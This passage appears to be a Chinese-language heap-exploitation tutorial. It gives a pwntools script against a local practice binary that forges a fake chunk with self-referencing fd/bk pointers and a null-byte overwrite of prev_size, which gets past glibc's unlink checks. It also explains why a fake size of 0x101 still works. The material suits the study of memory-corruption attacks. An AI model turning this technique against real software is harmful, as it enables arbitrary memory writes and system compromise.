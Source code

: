 攻击代码如下：

```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```

**注意这里绕过unlink检查的方法跟之前利用unlink漏洞时采用的方法不一样**

利用unlink漏洞的时候：

```c
 p->fd = &p-3*4
 p->bk = &p-2*4
```

在这里利用时，因为没有办法找到 `&p`  ,所以直接让：

```c
p->fd = p
p->bk = p
```

**这里需要注意一个点：**

```python
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
```

其实修改为下面这样也是可以的:

```python
payload = p64(0) + p64(0x221) + p64(address) * 2 + "A"*0xe0
```

按照道理来讲 fake chunk 的 size 是 `0x221`  才合理，但是为什么  `0x101` 也可以呢？这是因为对 size 和 prev_size 的验证只发生在 unlink 里面，而 unlink 里面是这样验证的:

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");
```
